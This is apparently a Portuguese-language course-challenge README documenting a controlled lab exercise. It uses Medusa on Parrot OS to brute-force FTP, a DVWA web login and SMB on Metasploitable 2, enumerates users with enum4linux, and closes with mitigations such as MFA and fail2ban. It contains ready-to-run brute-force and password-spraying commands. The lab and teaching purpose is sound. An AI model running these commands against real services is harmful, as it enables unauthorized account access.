






# dio-desafio-medusa-parrot-bruteforce

# Simulação de Ataques de Força Bruta em Ambientes Controlados: Usando Parrot OS e Medusa

Objetivo: simular ataques em FTP, Web e SMB, documentar o processo, propor mitigações

Este projeto prático foi desenvolvido como parte do desafio proposto pela DIO, com o objetivo de simular e documentar ataques de força bruta contra serviços e aplicações web em um ambiente de laboratório controlado.

A simulação utilizou o Parrot OS Security Edition como a plataforma principal de ataque, aproveitando suas ferramentas pré-instaladas, com ênfase na ferramenta Medusa, combinada com a customização de wordlists.

O ambiente de teste consistiu em máquinas virtuais configuradas em uma rede em modo Bridge, tendo como alvos principais:

# Alvo e Serviço: Metasploitable 2 (FTP). 
Objetivo da Simulação: Realizar um ataque de força bruta no serviço FTP (porta 21) para obter credenciais de acesso, demonstrando a vulnerabilidade de serviços com senhas fracas.

# Alvo e Serviço: DVWA (Damn Vulnerable Web Application)
Objetivo da Simulação: Atacar o formulário de login web, simulando a automação de tentativas de login HTTP POST com o Medusa, e entendendo como a segurança da aplicação (níveis de dificuldade) afeta a eficácia do ataque.

# Alvo e Serviço: Metasploitable 2 (SMB)
Objetivo da Simulação: Explorar a enumeração de usuários (utilizando ferramentas como enum4linux ou Nmap) e, em seguida, executar um ataque de password spraying no serviço SMB (porta 445), visando identificar contas com senhas comuns.

# Configuração do Ambiente
Máquinas Virtuais: Metasploitable 2/DVWA).
Software de Virtualização (VirtualBox). 
Configuração de Rede (Bridge).

# Passo a Passo dos Ataques Simulados
Foi criada uma seção para cada serviço atacado (FTP, Web - DVWA, SMB).

A. Ataque a FTP (Serviço vsftpd do Metasploitable 2)
 comando: medusa -h 192.168.1.7 -u msfadmin -P pass.txt -M ftp
 -h: Host Alvo
 -u: Usuário (ou -U para lista de usuários)
 -P: Wordlist de Senhas
 -M: Módulo/Serviço a ser atacado (ftp)

B. Ataque a Formulário Web (DVWA)
 comando: medusa -h 192.168.1.7 -M http -m "Location: index.php" -u "admin" -P wordlist-pass.txt -d "username=^USER^&password=^PASS^&Login=Login" -t 5 -T 1
 -H: Cabeçalho
 -d: Dados do POST, onde ^USER^ e ^PASS^ são os placeholders
 -m: Mensagem de erro (para saber quando falhou)
 

C. Ataque a SMB (Enumeração de Usuários e Password Spraying)
 comando: enum4linux 192.168.1.10
 Encontra usuários existentes no serviço SMB

 comando: medusa -h 192.168.1.7 -U smb_users.txt -p 'password' -M smb
 -U: Lista de Usuários
 -p: Senha única (para password spraying)

# Wordlists Utilizadas:
pass.txt, users.txt, senhas_spray.txt, smb_users.txt.

# Recomendações de Mitigação
Políticas de senha forte (complexidade, tamanho). - Técnicas: Bloqueio de IP após N tentativas (fail2ban), uso de autenticação de dois fatores (MFA), desativação de serviços não essenciais (ex: FTP/SMB se não usados), monitoramento de logs.

# Conclusão e Reflexões

O desafio prático demonstrou, de forma clara e controlada, a simplicidade e a eficácia do uso de ferramentas open-source, como o Medusa no Parrot OS, na execução de técnicas de força bruta. Em questão de segundos, foi possível evidenciar a vulnerabilidade de serviços que não aderem aos padrões básicos de segurança.

A experiência escancara como é fácil para um atacante utilizar uma *wordlist* personalizada ou pública (derivada de vazamentos históricos de dados) para obter acesso a contas com senhas fracas.

Neste cenário de ameaças, fica evidente que:

Senhas Fortes são a Base, mas Insuficientes: 
A implementação de políticas de senhas robustas é o primeiro e fundamental elo da corrente de segurança.

Autenticação de Dois Fatores (MFA) é Essencial:
A MFA se estabelece não mais como uma camada opcional, mas sim como uma necessidade crítica para defender contas contra ataques de força bruta bem-sucedidos.

Conhecimento Ofensivo para Defesa: Para nós, profissionais de Segurança da Informação, defender sistemas requer um conhecimento elementar e prático destas vulnerabilidades ofensivas. Somente ao entender como os ataques são realizados podemos implementar contramedidas eficazes, como bloqueio de IPs (fail2ban), limitação de rate e monitoramento de logs, garantindo a mitigação e prevenção de acessos indevidos aos nossos ativos.

Este projeto reforça a importância da segurança por design e da constante vigilância contra táticas de ataque que exploram a fragilidade humana e a má configuração de sistemas.

